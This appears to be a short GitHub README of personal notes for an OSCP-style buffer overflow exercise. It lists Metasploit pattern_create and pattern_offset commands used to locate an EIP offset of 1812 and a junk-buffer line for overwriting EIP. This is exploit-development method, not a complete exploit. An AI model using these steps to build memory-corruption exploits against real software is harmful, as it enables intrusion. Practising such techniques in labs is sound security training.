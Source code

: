 # OSC_BoF
This Rep describes my steps for BoF. 

1. File is Bad_Char python. 

2. To find the EIP offset net to create a pattern with msfvenom 

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100 > exploit.txt
-> check the EIP value: example EIP: 43346943
then use command to find out the offset: 
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 42367242
offset = 1812, -> need to fill until then with 1812 Chars
 #buf = b"A" * OFFSET #junk get to EIP
